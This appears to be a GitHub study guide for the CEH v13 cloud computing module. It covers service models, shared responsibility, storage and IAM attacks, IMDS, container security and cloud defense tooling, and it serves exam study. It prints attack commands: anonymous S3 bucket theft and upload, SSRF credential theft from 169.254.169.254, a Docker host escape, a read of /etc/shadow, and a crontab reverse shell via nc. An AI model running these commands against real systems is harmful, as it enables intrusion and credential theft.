



<div align="center">




# 🛡️ CEH v13 — Module 19: Cloud Computing
### Certified Ethical Hacker (CEH) Exam Notes • NIST Service & Deployment Models • Shared Responsibility • S3 & Storage Leaks • IAM Privilege Escalation • IMDSv1 vs IMDSv2 • Docker & Kubernetes Security • CSPM/CWPP/CASB

[-0078D4?style=for-the-badge&logo=shield)](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
[](https://www.eccouncil.org/)
[](../README.md)
[](./README.md)

<p align="center">
  <b>Authoritative, exam-oriented study guide and reference architecture for CEH v13 Module 19: Cloud Computing. Covers NIST cloud service models (IaaS, PaaS, SaaS, FaaS), deployment models, the Shared Responsibility Model, CSA Top Threats, public cloud storage enumeration (AWS S3, Azure Blobs, GCP Buckets), IAM privilege escalation vectors, Instance Metadata Service interrogation (IMDSv1 vs. IMDSv2 token defense), container breakout techniques (Docker daemon 2375, privileged containers), Kubernetes attack surfaces, and cloud governance tooling (CSPM, CWPP, CASB, CIEM).</b>
</p>

[📖 Module Hub](../README.md) • [📋 PDF Reference Part 1](./CEHv13%20-%20Module%2019%20-%20Cloud%20Computing%20Part%201.pdf) • [📋 Part 2](./CEHv13%20-%20Module%2019%20-%20Cloud%20Computing%20Part%202.pdf) • [📋 Part 3](./CEHv13%20-%20Module%2019%20-%20Cloud%20Computing%20Part%203.pdf) • [🗺️ Knowledge Base Index](../../README.md)

</div>

---

## 📋 Table of Contents

- [1. Cloud Computing Frameworks & Architectural Models](#1-cloud-computing-frameworks--architectural-models)
  - [NIST Cloud Service Models (IaaS, PaaS, SaaS, FaaS)](#nist-cloud-service-models-iaas-paas-saas-faas)
  - [NIST Cloud Deployment Models (Public, Private, Hybrid, Community)](#nist-cloud-deployment-models-public-private-hybrid-community)
  - [The Shared Responsibility Model Matrix](#the-shared-responsibility-model-matrix)
- [2. Cloud Threat Landscape & Primary Vulnerabilities](#2-cloud-threat-landscape--primary-vulnerabilities)
  - [Root Cause: Misconfigurations as the Primary Attack Vector](#root-cause-misconfigurations-as-the-primary-attack-vector)
  - [Cloud Attack Surfaces (IAM, Storage, APIs, Virtualization)](#cloud-attack-surfaces-iam-storage-apis-virtualization)
  - [Cloud Security Alliance (CSA) Treacherous 12 / Top Threats](#cloud-security-alliance-csa-treacherous-12--top-threats)
- [3. Cloud Storage Exploitation & Enumeration](#3-cloud-storage-exploitation--enumeration)
  - [AWS S3 Bucket Permissions & Unauthenticated Data Theft](#aws-s3-bucket-permissions--unauthenticated-data-theft)
  - [Azure Blob Storage & Google Cloud Storage (GCS) Reconnaissance](#azure-blob-storage--google-cloud-storage-gcs-reconnaissance)
  - [Automating Storage Discovery (`aws-cli`, S3Scanner, Cloud-Enum)](#automating-storage-discovery-aws-cli-s3scanner-cloud-enum)
- [4. Identity & Access Management (IAM) Exploitation](#4-identity--access-management-iam-exploitation)
  - [IAM Policy Evaluation & Wildcard Permissions](#iam-policy-evaluation--wildcard-permissions)
  - [High-Yield IAM Privilege Escalation Vectors](#high-yield-iam-privilege-escalation-vectors)
  - [AssumeRole Lateral Movement & Cross-Account Pivoting](#assumerole-lateral-movement--cross-account-pivoting)
  - [Offensive Cloud Frameworks: Pacu & MicroBurst](#offensive-cloud-frameworks-pacu--microburst)
- [5. Instance Metadata Service (IMDS) Interrogation](#5-instance-metadata-service-imds-interrogation)
  - [IMDSv1 SSRF Exploitation Mechanics (169.254.169.254)](#imdsv1-ssrf-exploitation-mechanics-169254169254)
  - [IMDSv2 Defense: Token-Based Session Protection](#imdsv2-defense-token-based-session-protection)
  - [Cross-Cloud Metadata Comparison (AWS vs. Azure vs. GCP)](#cross-cloud-metadata-comparison-aws-vs-azure-vs-gcp)
- [6. Container & Kubernetes Security](#6-container--kubernetes-security)
  - [Docker Daemon Vulnerabilities (Port 2375 Exposure)](#docker-daemon-vulnerabilities-port-2375-exposure)
  - [Container Breakout: Privileged Containers & Namespace Escapes](#container-breakout-privileged-containers--namespace-escapes)
  - [Kubernetes Attack Surfaces (API Server, Kubelet, etcd)](#kubernetes-attack-surfaces-api-server-kubelet-etcd)
- [7. Cloud Defensive Architecture & Governance](#7-cloud-defensive-architecture--governance)
  - [CSPM vs. CWPP vs. CASB vs. CIEM (Essential Exam Concepts)](#cspm-vs-cwpp-vs-casb-vs-ciem-essential-exam-concepts)
  - [Cloud Auditing: CloudTrail, CloudWatch, GuardDuty, and Security Hub](#cloud-auditing-cloudtrail-cloudwatch-guardduty-and-security-hub)
- [8. Master Decision Tree & Flowchart](#8-master-decision-tree--flowchart)
- [9. CEH v13 Exam Essentials & Distinction Matrix](#9-ceh-v13-exam-essentials--distinction-matrix)

---

> [!TIP]
> **💡 In Simple Words — What Module 19 Is Really About:**  
> Think of **Cloud Computing** like housing:  
> - **On-Premises:** You own the house and fix everything (roof, plumbing, locks, furniture).  
> - **IaaS (AWS EC2):** Renting an *empty house* — AWS fixes the roof/wiring (hardware), *you* patch the OS and lock the doors!  
> - **PaaS (Heroku / Elastic Beanstalk):** Renting a *serviced apartment* — the landlord maintains the OS; you just bring your code & data.  
> - **SaaS (Microsoft 365):** Staying in a *hotel* — just manage your login & data!  
> - **Most Common Cloud Hacks:** Leaving public storage buckets (`S3`) unlocked, handing `*` admin keys to weak IAM accounts, using **SSRF** to rob the internal cloud badge kiosk (**`169.254.169.254`**, defeated by **IMDSv2** `PUT` tokens!), and escaping misconfigured Docker containers (`--privileged` or port `2375`)!

## 1. Cloud Computing Frameworks & Architectural Models

### NIST Cloud Service Models (IaaS, PaaS, SaaS, FaaS)

The National Institute of Standards and Technology (NIST SP 800-145) defines three primary service models, alongside modern serverless architectures:

```
+--------------------------------------------------------------------------+
|                      NIST CLOUD SERVICE MODELS                           |
+--------------------------------------------------------------------------+
|  INFRASTRUCTURE AS A SERVICE (IaaS):                                     |
|  - CSP provides raw compute, storage, virtualization, and networking.    |
|  - Customer configures and manages the OS, middleware, runtime, and apps.|
|  - Examples: AWS EC2, Azure Virtual Machines, Google Compute Engine (GCE)|
+--------------------------------------------------------------------------+
|  PLATFORM AS A SERVICE (PaaS):                                           |
|  - CSP provides and patches the underlying OS, hardware, and runtime.    |
|  - Customer deploys and manages application code and data only.          |
|  - Examples: AWS Elastic Beanstalk, Heroku, Google App Engine.           |
+--------------------------------------------------------------------------+
|  SOFTWARE AS A SERVICE (SaaS):                                           |
|  - CSP provides, hosts, and manages the complete application stack.      |
|  - Customer manages only their data and user access permissions.         |
|  - Examples: Microsoft 365, Salesforce, Google Workspace.                |
+--------------------------------------------------------------------------+
|  FUNCTION AS A SERVICE (FaaS / Serverless):                              |
|  - Event-triggered microsecond code execution; stateless container pools.|
|  - Examples: AWS Lambda, Azure Functions, Google Cloud Functions.        |
+--------------------------------------------------------------------------+
```

---

### The Shared Responsibility Model Matrix

Understanding where customer liability ends and CSP liability begins is fundamental to cloud security:

| Security Layer | On-Premises | IaaS | PaaS | SaaS |
| :--- | :---: | :---: | :---: | :---: |
| **Data Classification & Access** | Customer | **Customer** | **Customer** | **Customer** |
| **Identity & Access Management (IAM)** | Customer | **Customer** | **Customer** | **Customer** |
| **Application Logic & Code** | Customer | **Customer** | **Customer** | CSP |
| **Operating System & Patching** | Customer | **Customer** | CSP | CSP |
| **Network Controls (Security Groups / Firewalls)** | Customer | **Customer** | Shared | CSP |
| **Virtualization & Hypervisor** | Customer | CSP | CSP | CSP |
| **Physical Servers & Datacenter** | Customer | CSP | CSP | CSP |

> [!IMPORTANT]
> **Core CEH Exam Rule**: In **all** cloud deployment models (IaaS, PaaS, SaaS), the **Customer is ALWAYS responsible for Data Classification, Identity Governance, and Access Control**!

---

### NIST Cloud Deployment Models (Public, Private, Hybrid, Community)

```
+--------------------------------------------------------------------------+
|                     NIST CLOUD DEPLOYMENT MODELS                         |
+--------------------------------------------------------------------------+
|  1. PUBLIC CLOUD: Multi-tenant infrastructure provisioned for open use   |
|     by the general public over the Internet (e.g., AWS, Azure, GCP).     |
+--------------------------------------------------------------------------+
|  2. PRIVATE CLOUD: Infrastructure provisioned for exclusive use by a     |
|     single organization with multiple consumers (on-prem or hosted).     |
+--------------------------------------------------------------------------+
|  3. COMMUNITY CLOUD: Infrastructure shared by multiple organizations     |
|     with common concerns (e.g., government agencies, healthcare consortia)|
+--------------------------------------------------------------------------+
|  4. HYBRID CLOUD: Composition of two or more distinct cloud infrastructures|
|     (e.g., Private + Public) bound by standardized data portability tech.|
+--------------------------------------------------------------------------+
```

---

## 2. Cloud Threat Landscape & Primary Vulnerabilities

### Root Cause: Misconfigurations as the Primary Attack Vector
Unlike on-premises infrastructure breaches driven largely by unpatched software exploits, **the overwhelming majority of cloud breaches stem from customer misconfigurations** (exposed storage buckets, wildcard IAM policies, IMDSv1 SSRF, and missing audit logs).

### Cloud Attack Surfaces (IAM, Storage, APIs, Virtualization)
Every cloud tenant relies on **control-plane APIs**, **identity policies**, **object storage permissions**, and **multi-tenant hypervisors**. Unlike physical data centers where a perimeter firewall wraps everything, **in the cloud Identity *is* the perimeter**.

### Cloud Security Alliance (CSA) Treacherous 12 / Top Threats
The Cloud Security Alliance consistently highlights that the overwhelming majority of cloud breaches originate from **customer misconfiguration** rather than CSP infrastructure flaws (Data Breaches, Misconfiguration & Inadequate Change Control, Insufficient Identity/Key Management, Account Hijacking, Insecure APIs):
* **Overprivileged IAM Roles**: Assigning wildcard `*` permissions to standard service accounts.
* **Public Storage Buckets**: Inadvertently exposing proprietary source code, customer records, and database backups to unauthenticated Internet users.
* **Hardcoded API Secrets**: Committing AWS Secret Keys or private service account tokens into public GitHub repositories.
* **Disabled Logging**: Failing to enable multi-region CloudTrail auditing.

---

## 3. Cloud Storage Exploitation & Enumeration

### AWS S3 Bucket Permissions & Unauthenticated Data Theft

Amazon S3 buckets are globally addressable resources:
* **URL Format**: `http://<bucket-name>.s3.amazonaws.com` or `http://s3.amazonaws.com/<bucket-name>`
* **Misconfiguration**: Granting `s3:GetObject` or `s3:ListBucket` permissions to `Everyone` or `AllUsers` (Authenticated AWS users):

```bash
# Testing anonymous unauthenticated access via AWS CLI
aws s3 ls s3://target-company-backups --no-sign-request

# Downloading the entire bucket contents anonymously
aws s3 sync s3://target-company-backups ./stolen_data --no-sign-request

# Testing for unauthenticated write access (uploading web shell or malware)
aws s3 cp exploit.sh s3://target-company-backups/exploit.sh --no-sign-request
```

### Azure Blob Storage & Google Cloud Storage (GCS) Reconnaissance
* **Azure Blob Containers:** `https://<account>.blob.core.windows.net/<container>?restype=container&comp=list`
* **Google Cloud Storage:** `https://storage.googleapis.com/<bucket-name>` or `gsutil ls gs://<bucket-name>`

### Automating Storage Discovery (`aws-cli`, S3Scanner, Cloud-Enum)

```bash
# Using s3scanner to audit a list of prospective bucket names
s3scanner scan --bucket target-corporate-bucket

# Using cloud-enum to enumerate AWS S3, Azure Blob, and Google Cloud Storage in parallel
cloud-enum -k targetcompany -q
```

---

## 4. Identity & Access Management (IAM) Exploitation

### IAM Policy Evaluation & Wildcard Permissions
Cloud IAM evaluates explicit **`Deny`** first (which always overrides everything!), then explicit **`Allow`**, and falls back to **Implicit Deny**. Dangerous wildcard permissions (`"Action": "*"`, `"Resource": "*"`) give compromised developer keys effective root access.

### High-Yield IAM Privilege Escalation Vectors

If an attacker compromises a low-privilege AWS access key, they search for misconfigured policy statements to escalate to Administrator:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "iam:AttachUserPolicy",
      "Resource": "*"
    }
  ]
}
```

* **`iam:AttachUserPolicy`**: The compromised user can attach the managed policy `AdministratorAccess` directly to their own account.
* **`iam:CreateAccessKey`**: Allows the attacker to generate new access keys for existing high-privilege administrative accounts.
* **`iam:PassRole`**: Allows passing an existing high-privilege IAM service role to a newly launched EC2 instance or Lambda function to execute commands in that role's context.

### AssumeRole Lateral Movement & Cross-Account Pivoting
* **`sts:AssumeRole`**: Allows assuming another role with elevated privileges or pivoting into another AWS account if trust relationships permit:
  ```bash
  aws sts assume-role --role-arn arn:aws:iam::123456789012:role/DevSecOpsAdmin --role-session-name EscalationSession
  ```

### Offensive Cloud Frameworks: Pacu & MicroBurst
* **Pacu:** Open-source AWS exploitation framework (modular like Metasploit for AWS IAM enumeration, Lambda backdoors, and S3 exfiltration).
* **MicroBurst:** PowerShell toolkit specialized for auditing and exploiting Microsoft Azure storage, App Services, and Azure AD/Entra ID misconfigurations.

---

## 5. Instance Metadata Service (IMDS) Interrogation

### IMDSv1 SSRF Exploitation Mechanics (169.254.169.254)

In AWS, EC2 instances can query an internal, link-local metadata address (**`169.254.169.254`**) to retrieve operational parameters and temporary IAM role credentials:

```bash
# 1. SSRF injected request to read assigned IAM role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Output returns:
# EC2-Database-Backup-Role

# 2. Extracting AccessKeyId, SecretAccessKey, and Token
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-Database-Backup-Role
```

---

### IMDSv2 Defense: Token-Based Session Protection

**IMDSv2** neutralizes SSRF attacks by requiring a session token generated via an HTTP `PUT` request with custom headers that standard SSRF vulnerabilities cannot forge:

```bash
# Step 1: Request a 6-hour session token using HTTP PUT
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# Step 2: Query metadata using the generated session token
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```

---

### Cross-Cloud Metadata Comparison (AWS vs. Azure vs. GCP)

| Cloud Provider | Metadata IP Address & Endpoint | Mandatory Security Header |
| :--- | :--- | :--- |
| **AWS (IMDSv1)** | `http://169.254.169.254/latest/meta-data/` | None |
| **AWS (IMDSv2)** | `http://169.254.169.254/latest/meta-data/` | `X-aws-ec2-metadata-token: <TOKEN>` |
| **Google Cloud (GCP)**| `http://metadata.google.internal/computeMetadata/v1/` | `Metadata-Flavor: Google` |
| **Microsoft Azure** | `http://169.254.169.254/metadata/instance?api-version=...` | `Metadata: true` |

---

## 6. Container & Kubernetes Security

### Docker Daemon Vulnerabilities (Port 2375 Exposure)

The Docker daemon communicates locally via the Unix socket `/var/run/docker.sock`. If misconfigured to listen on TCP without TLS (**TCP Port 2375** unencrypted, **Port 2376** with TLS), an unauthenticated attacker can execute arbitrary commands on the underlying host:

```bash
# Interrogating exposed unauthenticated Docker daemon
docker -H tcp://192.168.1.100:2375 ps

# Container Escape: Spawning a container that mounts host root filesystem to /host
docker -H tcp://192.168.1.100:2375 run -v /:/host -it ubuntu chroot /host /bin/bash
```

---

### Container Breakout: Privileged Containers & Namespace Escapes

When a container is launched with the **`--privileged`** flag, all kernel capabilities are granted to the container, and host device files are exposed:

```bash
# Inside a privileged container:
# 1. Identify the host root disk partition
fdisk -l

# 2. Mount host physical disk to a local directory
mkdir /mnt/host
mount /dev/sda1 /mnt/host

# 3. Access host shadow file or write reverse shell into host cron
cat /mnt/host/etc/shadow
echo "* * * * * root nc 10.10.10.10 4444 -e /bin/bash" >> /mnt/host/etc/crontab
```

### Kubernetes Attack Surfaces (API Server, Kubelet, etcd)
* **API Server (Port 6443):** Core K8s management brain; misconfigured anonymous RBAC (`system:anonymous`) lets attackers deploy privileged DaemonSets across all cluster nodes.
* **Kubelet API (Port 10250):** Unauthenticated worker node endpoint allowing remote code execution inside running pods (`/run`).
* **etcd (Port 2379):** Key-value store housing the entire cluster state and **all unencrypted Kubernetes Secrets**!

---

## 7. Cloud Defensive Architecture & Governance

### CSPM vs. CWPP vs. CASB vs. CIEM (Essential Exam Concepts)

```
+--------------------------------------------------------------------------+
|                      CLOUD DEFENSE FRAMEWORK MATRIX                      |
+--------------------------------------------------------------------------+
|  1. CSPM (Cloud Security Posture Management):                            |
|  - Audits cloud control planes for misconfigurations, compliance         |
|    violations, and policy drift across AWS, Azure, and GCP.              |
|  - Validates S3 buckets, open security groups, unencrypted storage.      |
+--------------------------------------------------------------------------+
|  2. CWPP (Cloud Workload Protection Platform):                           |
|  - Protects active workloads (VMs, containers, Kubernetes pods, serverless|
|    functions) at runtime.                                                |
|  - Real-time vulnerability scanning, memory integrity, behavioral EDR.  |
+--------------------------------------------------------------------------+
|  3. CASB (Cloud Access Security Broker):                                 |
|  - Sits between on-premises users and cloud applications (SaaS/IaaS).    |
|  - Enforces access policies, Data Loss Prevention (DLP), encryption,    |
|    and shadow IT discovery.                                              |
+--------------------------------------------------------------------------+
|  4. CIEM (Cloud Infrastructure Entitlement Management):                  |
|  - Analyzes excessive, unused, or cross-account IAM permissions.         |
|  - Enforces least privilege across complex multi-cloud identities.       |
+--------------------------------------------------------------------------+
```

### Cloud Auditing: CloudTrail, CloudWatch, GuardDuty, and Security Hub
* **AWS CloudTrail:** Logs *who called which API* across all regions (Audit trail).
* **Amazon CloudWatch:** Monitors real-time CPU/memory/log metrics and operational alarms.
* **Amazon GuardDuty:** AI/ML threat detection analyzing CloudTrail, VPC Flow Logs, and DNS logs automatically.
* **AWS Security Hub:** Unified posture dashboard aggregating CSPM checks and GuardDuty findings.

---

## 8. Master Decision Tree & Flowchart



---

## 9. CEH v13 Exam Essentials & Distinction Matrix

| Concept / Technique | Essential CEH Exam Distinction |
| :--- | :--- |
| **Shared Responsibility Rule**| The **Customer** is **always** responsible for Data and Identity/Access Management in IaaS, PaaS, and SaaS. |
| **Primary Cloud Breach Cause**| **Customer misconfigurations** (overprivileged IAM, public storage) are the #1 root cause of cloud breaches. |
| **IMDS Target IP** | The link-local metadata address **`169.254.169.254`** is targeted to steal IAM temporary credentials. |
| **IMDSv1 vs. IMDSv2** | **IMDSv2** enforces a session token via an HTTP **`PUT`** request to neutralize SSRF attacks. |
| **Docker Unauthenticated Port**| **TCP Port 2375** allows unauthenticated remote control of the Docker daemon. |
| **Privileged Container Escape**| Containers executed with **`--privileged`** can mount the host's physical partition (`mount /dev/sda1 /mnt`) to achieve complete host root takeover. |
| **CSPM vs. CWPP vs. CASB** | **CSPM** = Configuration & compliance auditing. **CWPP** = Runtime workload & container defense. **CASB** = Proxy enforcing DLP & user access to cloud apps. |

---

<div align="center">

[⬅️ Previous: Module 18 — IoT & OT Hacking](../Module%2018/README.md) • [Next: Module 20 — Cryptography ➡️](../Module%2020/README.md)

</div>
